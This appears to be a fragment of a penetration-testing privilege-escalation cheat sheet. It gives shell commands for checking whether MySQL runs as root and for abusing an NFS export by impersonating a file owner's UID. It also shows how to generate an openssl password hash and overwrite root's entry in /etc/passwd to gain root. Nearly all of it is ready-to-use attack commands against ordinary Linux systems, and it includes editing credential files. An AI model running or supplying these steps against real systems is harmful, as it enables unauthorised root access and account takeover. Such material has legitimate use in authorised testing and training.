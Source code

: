 ### [MySQL User Defined Functions](https://redteamnation.com/mysql-user-defined-functions/)

check if user = root

```shell
cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep user
```

NFS mount privilege

```shell
showmount -e <target ip>
# Export list for <target ip>:
# /home/tester    *
mkdir /tmp/tester
sudo mount -t nfs <target ip>:/home/tester /tmp/tester
find /tmp/tester -ls
# file permission, match uid
# drwxr-xr-x   2 1003     1003         1234 Feb 15 13:59 /tmp/Documents
sudo useradd tester01
sudo usermod -u 1003 tester01
sudo su tester01 -c bash
ls -la /tmp/tester
```

/etc/passwd

```shell
# generating password
openssl passwd -1 -salt ignite <password>
# openssl passwd -1 -salt test1234
# $1$ignite$7mPCsoeG29TKXrOoHJa0J1
# replace root's password
# root:$1$ignite$7mPCsoeG29TKXrOoHJa0J1:0:0:root:/root:/bin/bash
# su root
```